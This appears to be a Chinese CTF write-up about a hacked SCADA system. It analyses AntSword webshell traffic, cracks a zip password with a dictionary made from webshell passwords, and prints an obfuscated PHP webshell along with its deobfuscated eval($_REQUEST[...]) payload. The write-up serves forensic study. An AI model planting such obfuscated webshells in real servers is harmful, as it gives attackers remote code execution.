




# 隐藏的黑客

:::note

根据情报得知工控现场发现某 SCADA 系统被黑客攻破, 附件为黑客在目录留下的文件和当时时间段捕获到的一部分流量包, 你能根据这些信息分析出蛛丝马迹来么

flag 形式为 `flag{}`

:::

题目提供了 `upload` 文件夹以及 `1.pcapng` 流量包文件

对文件夹进行分析，可以发现大量的 Webshell 文件

对流量进行分析，可以发现蚁剑的 Webshell 交互流量



在这部分，攻击者读取了 `/var/www/html/webshell.zip` 文件的内容



将 `/var/www/html/webshell.zip` 的数据提取出来解析



可以发现压缩包存在有密码

联想到密码，可以注意 `upload` 文件夹内存在有大量的 Webshell 文件，将其中的连接密码提取为字典

```python
import os

file_folder = "D:/Downloads/attachment_1579250492_upload/upload"

pass_dict = []

for filename in os.listdir(file_folder):
    file_path = os.path.join(file_folder, filename)
    with open(file_path, "r") as f:
        file_data = f.read().strip()
        pass_dict.append(file_data.split("[")[-1].split("]")[0])

with open("webshell-pass.txt", "w+") as f:
    f.write("\n".join(pass_dict))
```

将提取出来的 `webshell-pass.txt` 文件作为字典进行爆破，得到 ``webshell.zip` 压缩包的密码



得到压缩包的密码为`7b8b965ad4bca`

解压压缩包，得到

```php
<?php

error_reporting(0);

@$c = array("1JFUVVFU1RbJzlhNzJjM","2Q1ZTc0ZjYwNTFiYjNiMzU","5MGZhOTMxOWZlJ10pOw","MGZhOTMxOWZlJ","MGZhOTMxOWZlJ");
@$str="ZXZhbCgkX";
@$o0o00o00o00o0o0 = chr(97).chr(115).chr(115).chr(101).chr(114).chr(116);
@$ooo00o0o0o0o0o0 = chr(98).chr(97).chr(115).chr(101).chr(54).chr(52).chr(95).chr(100).chr(101).chr(99).chr(111).chr(100).chr(101);
@$count = 0;
for($x=0;$x<=9;$x++){
        if (in_array($x, @$c)){
                @$str=@$str.@$c[@$count];
                if ($count == 2)
                {       
                        @$o0o00o00o00o0o0(@$ooo00o0o0o0o0o0(@$str));
                }
                @$count++;
        }
}
?>
```

对其进行解混淆

```php
<?php

error_reporting(0);

@$c = array("1JFUVVFU1RbJzlhNzJjM","2Q1ZTc0ZjYwNTFiYjNiMzU","5MGZhOTMxOWZlJ10pOw","MGZhOTMxOWZlJ","MGZhOTMxOWZlJ");
@$str="ZXZhbCgkX";
@$count = 0;
for($x=0;$x<=9;$x++){
        if (in_array($x, @$c)){
                @$str=@$str.@$c[@$count];
                if ($count == 2)
                {       
                        assert(base64_decode(@$str));
                }
                @$count++;
        }
}
?>
```

得到其载荷 `eval($_REQUEST['9a72c3d5e74f6051bb3b3590fa9319fe']);`

即可得到答案

```flag
flag{9a72c3d5e74f6051bb3b3590fa9319fe}
```
